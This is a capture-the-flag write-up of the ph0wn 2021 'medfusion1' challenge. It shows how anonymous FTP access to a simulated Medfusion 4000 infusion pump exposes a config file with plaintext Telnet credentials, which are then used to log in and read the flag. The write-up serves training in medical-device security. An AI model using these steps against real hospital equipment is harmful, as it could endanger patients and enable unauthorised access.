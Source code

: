 # ph0wn 2021 medfusion1 challenge

- Category: Pentest
- Author: cryptax
- Author of the write-up: Gianluca and cryptax
- Points: 92
- 15 teams solved the challenge

## Description

The French hospital "CHU Ph0wn" uses a Smiths Medical Medfusion 4000 infusion pump, available at host *medfusion.ph0wn.org*

Find the flag :)

Please beware our hospital patients: no need to brute force ;-)

## Nmap

Using **nmap**, I saw that a telnet server and a ftp server were available at the given IP address.

Note:

- Several participants tried to connect to *http://medfusion.ph0wn.org* and complained it was down. The infusion pump does not have a web server. Only FTP and Telnet.


## FTP

Connect to ftp server, and logged in as `anonymous` without any password.
Then enter in *passive mode* and download available `CONFIG.XML`.

Note: on FTP servers, most of the time, the *active* mode does not work. You need to specifically request *passive* mode. [Read about it here, for example](https://titanftp.com/2018/08/23/what-is-the-difference-between-active-and-passive-ftp/).

*Many participants complained FTP was down. It wasn't, but without passive mode, you cannot list and retrieve files...* The answer was always: "it's up, but you're missing a small element to do".


```
$ ftp 34.79.161.43
Connected to 34.79.161.43
220 RTCS Ready
Name (34.79.161.43): anonymous
331 Looking up password
Password:
230 Login successful
Remote system type is Unix.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening ASCII mode data connection.
-rw-r--r-- 1 root root 211 Oct 21 09:43 CONFIG.XML
226 Directory send OK
ftp> get CONFIG.XML
local: CONFIG.XML remote: CONFIG.XML
227 Entering Passive Mode (34,140,103,157,117,48).
150 Opening data connection for RETR.
WARNING! 8 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
211 bytes received in 0.00 secs (1.5479 MB/s)
```

## CONFIG.XML

In `CONFIG.XML`, read Telnet credentials:

```xml
<?xml version="1.0"?>
<Medfusion3600Configuration>
  <TelnetInterface>
    <Port>23</Port>
    <Username>medfusion</Username>
    <Password>chu_ph0wn</Password>
 </TelnetInterface>
</Medfusion3600Configuration>
```


I used credentials written inside "CONFIG.XML" for telnet connection, and here I found "flag1.txt" which contained the flag

Connect via Telnet:

```
$ telnet  34.79.161.43
Trying 34.79.161.43...
Connected to 34.79.161.43.
Escape character is '^]'.
RTCS v2.96.00 Telnet server

Welcome to the Medfusion 4000 Configuration Interface


medfusion login: medfusion
Password: 
Linux medfusion 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-1 (2021-06-10) x86_64
 
4000>ls
copy_of_drugserver  flag1.txt  test.sh
4000>cat flag1.txt
ph0wn{so_you_are_r00t_step1_yo!}
```

*Note that this challenge is greatly inspired from [Remote Code Execution on the Smiths Medical Medfusion 4000](https://github.com/sgayou/medfusion-4000-research/blob/master/doc/README.md)*. At least one team saw that, many managed to solve - even stage 2 - without being aware of it.
